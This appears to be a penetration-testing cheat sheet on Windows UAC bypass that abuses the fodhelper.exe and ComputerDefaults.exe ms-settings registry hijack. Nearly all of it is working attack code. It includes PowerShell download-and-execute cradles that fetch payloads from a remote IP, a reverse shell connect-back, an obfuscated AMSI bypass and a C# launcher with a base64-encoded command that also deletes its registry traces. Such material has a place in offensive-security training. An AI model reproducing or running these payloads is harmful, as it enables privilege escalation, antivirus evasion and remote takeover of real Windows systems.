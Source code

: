 ## Resources
- https://medium.com/@xNEED/user-account-control-uac-bypass-f4be7a410f23
- https://github.com/Octoberfest7/OSEP-Tools/blob/main/uacbypass.ps1
- https://github.com/0xyg3n/UAC_Exploit/tree/main

## Troubleshoot
Some AV's may terminate the entire ms-settings key if malicious behaviour is detected which will break any related settings. 
```powershell
# Rebuild key
reg add "HKCU\Software\Classes\ms-settings" /ve /d "" /f
```

# Fodhelper
Standard Execution
```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
C:\Windows\System32\fodhelper.exe

# Meterpreter exploit
use exploit/windows/local/bypassuac_fodhelper
```

AMSI Bypass embedded in a PS1 shellcode runner
```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (New-Object System.Net.WebClient).DownloadString('http://192.168.45.235:7711/Invoke-Runner.ps1') | IEX" -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
C:\Windows\System32\fodhelper.exe

# Meterpreter exploit
use exploit/windows/local/bypassuac_fodhelper
```
Connect back to powercat listener
```powershell
# Attacking System
simplecat-tcp -l -p 9001 -Verbose

# Add line to end of SimpleCat-TCP.ps1
SimpleCat-TCP -c 192.168.45.230 -p 9001 -ep

# Embed AMSI bypass at top of SimpleCat-TCP script if required
Function Invoke-GuiltySpark {$X="5492868772801748688168747280728187173688878280688776828";$Y="1173680867656877679866880867644817687416876797271";[Ref]."A`ss`Embly"."GET`TY`Pe"((0..37|%{[char][int](29+($X+$Y).Substring(($_*2),2))})-join'').GetField((38..51|%{[char][int](29+($X+$Y).Substring(($_*2),2))})-join'','NonPublic,Static').SetValue($null,$([Convert]::ToBoolean("True")))};Invoke-GuiltySpark

New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (New-Object System.Net.WebClient).DownloadString('http://192.168.45.235:7711/SimpleCat-TCP.ps1') | IEX" -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
C:\Windows\System32\fodhelper.exe
```
# ComputerDefaults
ComputerDefaults.exe can be abused under similar circumstances as Fodhelper.exe in order to self elevate a medium integrity shell to that of a high integrity. 
Use UAC_UP.cs and embed the desired command to execute.
```csharp
// File: UAC_UP.cs
// Execute Base64 encoded commands with Powershell.
// The Below commands executes SimpleTCP-Cat.ps1 to catch a reverse shell as a high integirty shell
// Remember to embed a AMSI bypass into SimpleTCP-Cat.ps1 if required

string Execution = "powershell.exe -NoExit -EncodedCommand KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMwAwADoANwA3ADEAMQAvAFMAaQBtAHAAbABlAEMAYQB0AC0AVABDAFAALgBwAHMAMQAnACkAIAB8ACAASQBFAFgA"; // Execute what
                    Process.Start("CMD.exe", "/c start " + Execution);
                    RegistryKey uac_clean = Registry.CurrentUser.OpenSubKey("Software\\Classes\\ms-settings", true);
                    uac_clean.DeleteSubKeyTree("shell");
                    uac_clean.Close();
```
